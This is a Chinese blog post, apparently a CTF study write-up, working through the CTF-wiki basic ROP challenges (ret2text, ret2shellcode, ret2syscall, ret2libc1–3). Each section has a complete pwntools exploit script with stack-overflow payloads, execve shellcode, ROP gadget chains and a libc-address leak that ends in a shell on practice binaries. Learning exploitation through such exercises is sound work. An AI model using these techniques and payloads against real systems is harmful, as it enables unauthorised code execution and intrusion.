




ROP - CTFwiki
ret2text
wget https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text -O ret2text
file ret2text //看到是 32 位动态链接
// 拖进 ida， gets 栈溢出
checksec ret2text // 只有 NX
gdb ret2text

buf 到 saved ebp 是 0x6c，再加 0x4 到 return address。所以 offset 是 112。
相当于是 return to plt，ida 里面简单看了下，有后门函数 secure：

return to 0x804863A 即可 getshell：
exp：
from pwn import *
# p = process("./")
p = remote("127.0.0.1",4000)
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
# elf = ELF("./")
payload = "\x90"*(0x6c+4) + p32(0x804863A)
p.sendline(payload)
p.interactive()
ret2shellcode (NX off)
checksec ret2shellcode没有保护，开了 NX 就意味着有 rwx 段，可以从 gdb 中 vmmap 看到，或者
cat /proc/`pidof ret2shellcode`/maps- get 处 offset 不变，还是 112
- 覆盖返回地址，retrun to gets 的 plt entry
- 用这个新的 gets 将 shellcode 读到 buf 上
- 同时跳转到 buf 执行 shellcode 即可
exp：
from pwn import *
p = process("./ret2shellcode")
# p = remote("127.0.0.1",4000)
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./ret2shellcode')
gdb.attach(p)
p.sendline("\x90"*112 + p32(elf.symbols['gets']) + p32(elf.bss()) + p32(elf.bss()))
# shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
# shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
# shellcode += "\x0b\xcd\x80"
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()ret2syscall（NX on）
动态链接是没有 int 0x80 之类的指令的，这里的文件自然也是 static。
offset 和前面一样还是 112，不同的是 NX 开启，不能像 ret2shellcode 那样读 shellcode 到一个 buf。这里用 ret2syscall:
所需要各个寄存器的值：
- eax 为 0xb，也就是 execve 调用号
- ebx 为 ‘/bin/sh’ 字符串的地址
- ecx 和 edx 为0
关于 linux 系统调用可以参考：
借助 ROPgadget：
ROPgadget --binary ./ret2syscall --only "int"
ROPgadget --binary ./ret2syscall --only="pop|ret" | grep "eax"
ROPgadget --binary ./ret2syscall --only="pop|ret" | grep "edx"
ROPgadget --binary ./ret2syscall --str="/bin/sh"exp:
from pwn import *
p = process("./ret2syscall")
# p = remote("127.0.0.1",4000)
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
# elf = ELF("./")
# eax = 11,ebx = sh_addr,ecx = edx = 0
pop_eax = 0x080bb196
pop_edx_ecx_ebx = 0x0806eb90
sys_addr = 0x08049421
sh_addr = 0x080be408
gdb.attach(p)
payload = '\x90'*112 + p32(pop_eax) + p32(11) + p32(pop_edx_ecx_ebx) + p32(0) + p32(0) + p32(sh_addr) + p32(sys_addr)
p.sendline(payload)
p.interactive()ret2libc1 (NX on)
程序下载链接：https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1
offset 不变，可以通过 elf.symbols['system'] 得到 system 的地址，再用 ROPgadget --binary ./ret2libc1 --str '/bin/sh 拿到 /bin/sh 的地址即可。
exp:
from pwn import *
p = process("./ret2libc1")
# p = remote("127.0.0.1",4000)
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF("./ret2libc1")
sh_addr = 0x08048720
# system = 0x8048460
payload = '\x90'*112 + p32(elf.symbols['system']) + p32(0xdeadbeef) + p32(sh_addr)
gdb.attach(p)
p.sendline(payload)
p.interactive()ret2libc2
程序下载链接: https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2
和刚才不同的是，ROPgadget 找不到 /bin/sh 这个字符串。所以可以先 ret 到 gets 的 plt，把 /bin/sh 读到 buf 上，再调用 system 并且传递参数 buf。
利用 gets 函数的溢出，我在栈上这样布局：
padding # buf->ebp+saved ebp 112
gets@plt
system@plt # 此处是 gets@plt entry 的 retaddr
buf_addr #elf.bss() 附近 # 此处是 gets@plt 的第一个参数
buf_addr #elf.bss() 附近 # 此处是 system@plt 的第一个参数- 在 gets 处溢出，控制 retaddr 为 gets 的 plt entry
- 利用新的 gets 把 /bin/sh 读到 buf 中，新的 gets 的 retaddr 为 system 的 plt entry
- 调用 system@plt，参数为刚才读好了 /bin/sh 的 buf
exp:
from pwn import *
p = process("./ret2libc2")
# p = remote("127.0.0.1",4000)
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF("./ret2libc2")
gets_plt = elf.symbols['gets']
system_plt = elf.symbols['system']
payload = '\x90'*112 + p32(gets_plt) + p32(system_plt) + p32(elf.bss()) + p32(elf.bss())
# gdb.attach(p)
p.sendline(payload)
p.interactive()ret2libc3
程序下载链接： https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3
这一次没有 system 也没有 /bin/sh。梳理一下我们要做的事：
- 先用一次 ROP return 到 puts ，泄漏 libcbase addr，其实也就是先用 puts 等函数印出一个已经调用过的函数的 got ，并 return 回 main，再减去该函数在 libc 中的 offset，offset 可以通过 readelf -s 等方式得到。(通常选择
__libc_start_main，因为它是 main 函数的调用者，必定已经调用过) - 拿到 libcbase addr，就可以加上 system 在 libc 中的 offset，通过 libcbase + system offset 拿到 system addr
- 同理，用 /bin/sh 的 offset + libcbase 得到 /bin/sh 的 addr
- 再一次 ROP 回 main，用 system 和 /bin/sh 开 shell
栈布局：
- ROP1:
padding1 # 112
puts@plt
main@plt
__libc_start_main@got
- ROP2:
padding2 # 104
system@plt
0xdeadbeef # anything 4 bytes
/bin/sh addrexp:
from pwn import *
from LibcSearcher import *
p = process("./ret2libc3")
# p = remote("127.0.0.1",4000)
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF("./ret2libc3")
# gdb.attach(p)
puts_plt = elf.symbols['puts']
main_plt = elf.symbols['main']
libc_start_main_got = elf.got['__libc_start_main']
payload1 = 'a'*112 + p32(puts_plt)+p32(main_plt) + p32(libc_start_main_got)
p.sendlineafter("Can you find it !?",payload1)
libc_start_main_addr = u32(p.recv()[0:4])
# print libc_start_main_addr
libc = LibcSearcher("__libc_start_main",libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
sh_addr = libcbase + libc.dump('str_bin_sh')
payload2 = 'a'*104 + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.sendline(payload2)
p.interactive()其中选择：ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu10_i386)，也就是 3
参考资料
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/#ret2shellcode
转载请注明来源，欢迎对文章中的引用来源进行考证，欢迎指出任何有错误或不够清晰的表达。可以在下面评论区评论
文章标题:ROP - CTFwiki
文章字数:1.4k
本文作者:知弦
发布时间:2019-11-26, 23:21:07
最后更新:2019-12-06, 03:45:58
原始链接:http://zh1x1an.com/2019/11/26/ROP-CTFwiki/版权声明: "署名-非商用-相同方式共享 4.0" 转载请保留原文链接及作者。